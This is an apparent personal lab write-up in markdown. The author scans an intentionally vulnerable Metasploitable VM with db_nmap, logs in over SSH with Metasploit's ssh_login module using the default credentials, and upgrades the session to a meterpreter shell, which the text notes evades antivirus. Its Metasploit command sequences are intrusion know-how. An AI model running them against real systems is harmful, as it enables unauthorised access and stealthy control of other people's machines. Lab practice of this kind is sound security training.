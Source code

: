 ```yaml
---
title: 😈 Upgrading to Meterpreter Shell Using Metasploit
permalink: /metasploit1
parent: Pentesting
---
```

# Upgrading to Meterpreter Shell Using Metasploit
{: .no_toc }

{: .note }
Pentesting, Ethical Hacking, Kali Linux, Metasploit, Metasploitable, Virtual Machines, Networking
{: .fs-3 }

#### Contents
{: .no_toc }
- TOC
{:toc}

## Scenario
In this lab, I will establish a remote connection to a vulnerable machine using Metasploit. After gaining access to the machine, I will upgrade the limited shell to a meterpreter shell. Meterpreter operates entirely in memory, making it more stealthy and less likely to be detected by antivirus software.  It also provides a rich command set that allows for advanced post-exploitation activities. This includes commands for interacting with the file system, networking, system, and more.

## Goals & Objectives
1. Use VMWare Workstation Player to run separate instances of Kali Linux and Metasploitable, an intentionally vulnerable virtual machine.
2. Perform an nmap scan on the target machine, detecting open ports and a list of services and their versions.
3. Log in to the target machine using SSH.
4. Upgrade the limited shell to a meterpreter shell.

## Results
### 📄 Task 1: Run Kali Linux and Metasploitable

I download pre-built images for Kali Linux and Metasploitable and run them in VMWare Workstation Player.

![](/assets/images/101_71_metasploit1/step1.png)

<br>
<br>
### 📄 Task 2: Run Metasploit in Kali Linux

![](/assets/images/101_71_metasploit1/step2.png)

<br>
<br>
### 📄 Task 3: Find the IP address of the target machine 

I use ```ifconfig``` to find the IP address of the target machine: 192.168.28.128

![](/assets/images/101_71_metasploit1/step3.png)

<br>
<br>
### 📄 Task 4: Scan the target machine using db_nmap

In Metasploit, I scan the target machine using ```db_nmap -sV 192.168.28.128```. This command stores the results of an nmap scan in Metasploit’s database. This database allows me to keep track of and manage the scan results.

![](/assets/images/101_71_metasploit1/step4.png)

I notice that SSH (secure shell) is running on port 22. SSH is an encrypted network protocol used to remotely interact with an Operating System.

<br>
<br>
### 📄 Task 5: Log in to the target machine using SSH

To log in to the target machine using SSH, I run the following commands:

```bash
use auxiliary/scanner/ssh/ssh_login
set rhosts 192.168.28.128
set rport 22
set username msfadmin
set password msfadmin
run
```

Note: msfadmin is the default username and password of the Metasploitable VM.

```use auxiliary/scanner/ssh/ssh_login``` allows me to use the ssh_login module to remotely log in to the target machine  
```set rhosts``` sets the IP address of the target machine  
```set rport``` specifies the port number  
```set username``` and ```set password``` specifies the login credentials to access the target machine

![](/assets/images/101_71_metasploit1/step5.png)

The ```sessions``` command shows active SSH sessions. Currently, the active session is a limited shell.

<br>
<br>
### 📄 Task 6: Upgrade the limited shell to a meterpreter shell

To upgrade the limited shell to a meterpreter shell, I run the following commands:

```bash
use post/multi/manage/shell_to_meterpreter 
set session 1 
run
```

```use post/multi/manage/shell_to_meterpreter``` allows me to upgrade a shell session to meterpreter shell  
```set session 1``` upgrades the SSH sessions to a meterpreter shell

![](/assets/images/101_71_metasploit1/step6.png)

Running the ```sessions``` command reveals a second session, which is the meterpreter shell.

<br>
<br>
### 📄 Task 7: Switch to the meterpreter shell

To switch to the meterpreter shell, I use the following command: ```session -i 2```.

![](/assets/images/101_71_metasploit1/step7.png)

---

<a href="#top" id="back-to-top">Back to top</a>